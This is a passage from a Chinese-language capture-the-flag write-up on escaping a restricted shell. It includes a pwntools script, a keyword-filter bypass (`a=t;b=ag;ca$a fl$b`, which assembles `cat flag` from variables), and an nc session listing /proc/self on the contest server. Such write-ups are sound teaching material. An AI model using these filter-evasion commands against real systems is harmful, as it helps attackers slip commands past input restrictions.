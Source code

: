 ```python

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    gdb.attach(p,cmd)

cmd1 = 'ls -ali'
ru('find yourself\n')
sl(cmd1)
print ru('where are you?\n')

cmd2 = 'a=t;b=ag;ca$a fl$b'

# debug()
# info_addr('tag',addr)
# log.warning('--------------')

p.interactive()
```

#### 0x6 官方解

- 这题本来的考察点`proc`，硬是让我用`ls -i`解出来了...还是要多学些东西...

- `check1` : `ls -l /proc/self/cwd` 

- `check2`: `$0` 

- 赶紧学习一波`/proc`

  ```
  % nc 47.103.214.163 21000
  find yourself
  ls -al /proc/self/
  total 0
  dr-xr-xr-x   9 1000 1000 0 Feb  1 09:44 .
  dr-xr-xr-x 121    0    0 0 Feb  1 09:42 ..
  dr-xr-xr-x   2 1000 1000 0 Feb  1 09:44 attr
  -rw-r--r--   1 1000 1000 0 Feb  1 09:44 autogroup
  -r--------   1 1000 1000 0 Feb  1 09:44 auxv
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 cgroup
  --w-------   1 1000 1000 0 Feb  1 09:44 clear_refs
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 cmdline
  -rw-r--r--   1 1000 1000 0 Feb  1 09:44 comm
  -rw-r--r--   1 1000 1000 0 Feb  1 09:44 coredump_filter
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 cpuset
  lrwxrwxrwx   1 1000 1000 0 Feb  1 09:44 cwd -> /tmp/0xb3f14a49
  -r--------   1 1000 1000 0 Feb  1 09:44 environ
  lrwxrwxrwx   1 1000 1000 0 Feb  1 09:44 exe -> /bin/ls
  dr-x------   2 1000 1000 0 Feb  1 09:44 fd
  dr-x------   2 1000 1000 0 Feb  1 09:44 fdinfo
  ```